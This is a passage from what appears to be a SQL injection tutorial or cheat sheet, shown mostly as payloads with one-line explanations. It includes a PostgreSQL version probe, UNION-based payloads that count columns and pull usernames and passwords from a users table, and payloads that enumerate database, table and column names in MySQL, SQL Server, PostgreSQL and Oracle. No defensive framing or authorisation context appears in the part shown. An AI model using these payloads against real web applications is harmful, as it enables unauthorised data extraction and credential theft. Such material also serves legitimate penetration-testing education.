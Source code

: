 **PostgreSQL:**
```
' AND (SELECT version()) LIKE '%PostgreSQL%' --
```

**What they do**: These queries try to extract database version information in a way specific to each DBMS.

## Intermediate SQL Injection Techniques

### 4. UNION-Based Injection

```
' UNION SELECT NULL --
' UNION SELECT NULL,NULL --
' UNION SELECT NULL,NULL,NULL --
```

**What they do**: Test how many columns are in the current query by adding NULLs until the query works.

```
' UNION SELECT 1,2,3 --
```

**What it does**: Helps identify which positions are displayed in the output.

```
' UNION SELECT username,password,NULL FROM users --
```

**What it does**: Extracts usernames and passwords from the users table.

### 5. Information Gathering

**Database Name:**
```
' UNION SELECT database(),NULL,NULL --      (MySQL)
' UNION SELECT DB_NAME(),NULL,NULL --       (SQL Server)
' UNION SELECT current_database(),NULL,NULL -- (PostgreSQL)
```

**Table Names:**
```
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables WHERE table_schema=database() --   (MySQL)
' UNION SELECT table_name,NULL,NULL FROM all_tables --   (Oracle)
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables --   (PostgreSQL/SQL Server)
```

**Column Names:**
```
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='users' --   (MySQL/PostgreSQL)
' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='USERS' --   (Oracle)
```

**What they do**: Extract schema information to map the database structure.
